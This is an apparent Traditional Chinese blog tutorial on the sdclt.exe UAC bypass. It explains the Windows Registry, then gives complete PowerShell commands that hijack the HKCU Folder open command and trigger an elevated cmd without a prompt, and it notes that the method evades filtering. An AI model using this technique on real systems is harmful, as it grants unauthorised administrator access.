

Sdclt.exe 是 Windows 內建的備份與還原功能的主要執行檔，  
位置放在 `C:\Windows\System32`，  
因為本身帶數位簽章，而且有 Auto-elevate，

所以常常會被拿來當作攻擊的工具，  
今天我們就一起來看看他的用法吧

## 什麼是登錄碼 Registry？

* * *

先來看看什麼是登錄碼吧，  
我們可以把登錄碼當成是整個 OS 的**中央大腦**，  
他可以存電腦上幾乎所有東西的設定選項，

### 主要功能：

*   **硬體設定**：紀錄有哪些硬體，像是顯示卡，USB 裝置，還有它們的驅動跟設定
*   **軟體設定**：當安裝一個程式的時候，他會把自己的資訊寫進 Registry，包括安裝路徑版本號，還有檔案關聯（像是 .docx 要用哪個程式打開）
*   **使用者設定**：每個使用者帳號都有自己的設定區塊，可以存像是桌布視窗顏色程式個人設定等內容
*   **作業系統設定**：Windows 自身的行為也會存在這邊

### 登錄碼結構：

*   機碼（Keys)：可以想成是資料夾，是一個可以包含其他機碼（形成子資料夾）或鍵值的容器
*   鍵值（Values)：可以想成是檔案，每個 Value 都有一個名稱資料類型具體值

### 五個主要的根目錄：

上面我們有看到類比成資料夾檔案的相應關係，  
其實如果我們更深入去看的話，  
整個 Registry 的最頂層有五個主要的根 Keys

*   `HKEY_CLASSES_ROOT` (HKCR)：主要管理檔案關聯和 COM 物件
*   `HKEY_CURRENT_USER` (HKCU)：儲存目前登入使用者的個人設定**這就是我們這次攻擊利用的地方，因為改這邊不需要管理員權限**
*   `HKEY_LOCAL_MACHINE` (HKLM)：儲存與本機電腦相關的設定，對所有使用者都有效修改這裡需要管理員權限
*   `HKEY_USERS` (HKU)：儲存了電腦上所有使用者帳號的設定檔HKEY\_CURRENT\_USER 其實只是 HKEY\_USERS 下目前使用者設定的一個快捷方式
*   `HKEY_CURRENT_CONFIG` (HKCC)：儲存目前硬體設定檔的資訊

## 來看一下 Demo 吧

* * *

sdclt.exe 的 UAC Bypass，其實就是一種 Registry Hijacking，  
用 Windows Shell 的命令指派委託機制來達成攻擊，  
而且我們最主要利用的就是上面提到的 `HKCU`

### 攻擊核心

我們要修改的是這個路徑：  
`HKEY_CURRENT_USER\Software\Classes\Folder\shell\open\command`

拆開來看一下：

*   `HKEY_CURRENT_USER` (HKCU): 重點部分這是專屬當前登入使用者的 Registry 區域對這個區域的任何修改完全不需要系統管理員權限，我們就可以在一個低權限的 Shell 中完成所有準備工作
*   `Software\Classes`: HKCU 中用來覆蓋系統級別（HKEY\_LOCAL\_MACHINE\\Software\\Classes）檔案關聯和 COM 物件設定的地方系統在尋找如何處理某個檔案類型時，會優先檢查目前使用者的這個路徑
*   `Folder\shell\open\command`: 定義當系統對一個資料夾執行開啟動作的時候，應該執行的命令正常情況打開資料夾是由 explorer.exe 處理，但我們可以劫持這個行為

### 兩個關鍵 Keys

等等攻擊的過程，我們主要會設定兩個 Keys：

*   (Default) 預設值：
    *   作用：裡面原本是存要執行的命令，等等我們會把它改成 cmd.exe，所以只要有開啟的動作產生的時候，就會執行 cmd
*   DelegateExecute：
    *   作用：本身是一個空字串，但只要它存在的話，Windows Shell 就不會直接執行(Default)值裡的命令，而是會把任務委派給一個 COM 物件去處理
    *   提權說明：因為 sdclt.exe 本身是 auto-elevate，所以觸發這個委派的時候，就會用自己的高權限去請求執行，所以 (Default) 裡的 cmd 就會繼承這個高權限了

### 攻擊步驟

#### Step 1: Register Hijacking

```powershell
New-Item "HKCU:\Software\Classes\Folder\shell\open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)" -Value "cmd.exe" -Force
Set-ItemProperty "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Value "" -Force

```

#### Step 2: 去觸發開啟動作，讓 Default 裡的 Payload 出來

```
sdclt.exe

```



應該就會發現不會有任何 UAC 視窗跳出來，  
然後有帶 admin 權限的 cmd 就跳出來了，  
這樣我們就成功 UAC Bypass 了

## 結論！

* * *

這邊也就整理一下 Scdlt.exec 在攻擊方面的一些優勢：

*   不需要下載任何東西
*   不需要網路連線
*   使用內建 Windows 工具，不易被過濾